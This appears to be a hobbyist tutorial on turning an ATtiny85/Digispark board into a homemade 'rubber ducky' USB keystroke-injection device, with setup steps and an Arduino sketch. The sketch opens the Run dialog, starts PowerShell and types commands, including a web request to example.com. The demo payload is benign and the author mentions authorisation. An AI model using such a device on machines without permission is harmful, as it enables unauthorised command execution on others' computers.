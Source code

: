 # Make your own rubber ducky

---

![Attiny ](https://camo.githubusercontent.com/8944ce0301f2c573d0a1a64ff51e8ee4e98043f4e7da5c5d92452233031623bc/68747470733a2f2f692e6962622e636f2f6a5a32777658302f4e455745562d41542e706e67)
   
Credit to camo


If you don't know, a rubber ducky is essentially a pre-programmed USB keyboard that types at a super fast speed that also looks like a harmless flash drive...


You can find the official rubber ducky from the Hak5 [website](https://shop.hak5.org/products/usb-rubber-ducky). At a price of ~$80 it's not cheap...

Thankfully you can make your own for ~$2.50! All it requires is 
- An [Attiny85](https://www.amazon.co.uk/attiny85/s?k=attiny85)
- Some [drivers](https://github.com/digistump/DigistumpArduino/releases)
- The [Arduino IDE](https://www.arduino.cc/en/software)
- A Windows OS (I haven't tested on Linux)


## Installation

To install the drivers just extract the zip, and run either DPinst64 (for x64 systems) or DPinst (for x32 systems).

To setup the Arduino IDE, open it up and go to: 
- File -> Preferences -> Additional Boards Manager URLs and enter `https://digistump.com/package_digistump_index.json` (UPDATE: The Certificate has expired, so use the direct link `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json`)


![Arduino](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/Capture.PNG)

![Additonal Board URLs](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/Additional_Board_Manager.PNG)

![Digistump Index](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/digistump_index.PNG)

- Tools -> Board -> Boards Manager and enter digispark and select `Digistump AVR Boards by Digistump` to install it

![Boards Manager](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/boards_manager.PNG)

![Digispark Board](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/digistump_board.PNG)

- Tools -> and Select "Board Digispark (Default - 16.5mhz)"

![Select Digispark](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/Select_Board.PNG)



## Creating the malicious script

Ok! We're all set up, now we can write some basic code. In the Arduino IDE paste the following code.
```
#include "DigiKeyboard.h"

void setup() {
  // This runs once, you could move the core code here. But I prefer to have it in the loop. 
}
void loop() {
  DigiKeyboard.sendKeyStroke(0); //Not always required, but can help make sure the first keystrokes don't get cut off.
  DigiKeyboard.delay(500); 
  // Trigger Windows + R
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  //"Type" powershell then press ENTER (println == print with a newline)
  DigiKeyboard.println("powershell");
  DigiKeyboard.delay(500);
  // "Type" the following and then press ENTER
  DigiKeyboard.println("echo 'Pwned'");
  DigiKeyboard.delay(500);
  //Make an HTTP request to example.com
  DigiKeyboard.println("iwr https://example.com");
  DigiKeyboard.delay(500);
  // Blink the red LED when the code has finished executing
  while (true)
  {
    digitalWrite(0, HIGH);
    digitalWrite(1, HIGH);
    delay(300);
    digitalWrite(0, LOW);
    digitalWrite(1, LOW);
    delay(300);
  }
}
```

Once you're ready, press **Verify** (the Tick in the top left) to ensure it compiles correctly.

If it does, press **Upload** (the -> in the top left) to start flashing it.

You should see the following:
```
Sketch uses 3168 bytes (52%) of program storage space. Maximum is 6012 bytes.
Global variables use 136 bytes of dynamic memory.
Running Digispark Uploader...
Plug in device now... (will timeout in 60 seconds)
```

So plug it in and wait a couple seconds... Ok, should have worked!


Now, you can plug it in to a Windows PC (that you have authorisation to) and run the code :). 

As a word of warning, the default Keyboard layout is **US** based, so you might run into issues if you use a different keyboard layout.


